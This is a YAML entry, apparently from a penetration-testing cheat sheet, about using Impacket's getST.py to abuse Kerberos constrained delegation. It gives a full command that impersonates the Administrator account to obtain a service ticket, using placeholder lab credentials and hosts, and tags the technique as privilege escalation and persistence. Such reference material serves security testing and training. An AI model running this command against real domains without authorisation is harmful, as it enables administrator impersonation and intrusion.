 ```yaml
---
description: |
  Impacket's getST.py will request a Service Ticket and save it as ccache. If the account has constrained delegation privileges, you can use the `-impersonate` flag to request a ticket on behalf of another user. The following command will impersonate the Administrator account and request a Service Ticket on its behalf for the `www` service on host `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: john

  	Password: password123

  	Impersonated User: Administrator

command: |
  python3 getST.py -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john:password123
items:
  - Username
  - Password
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

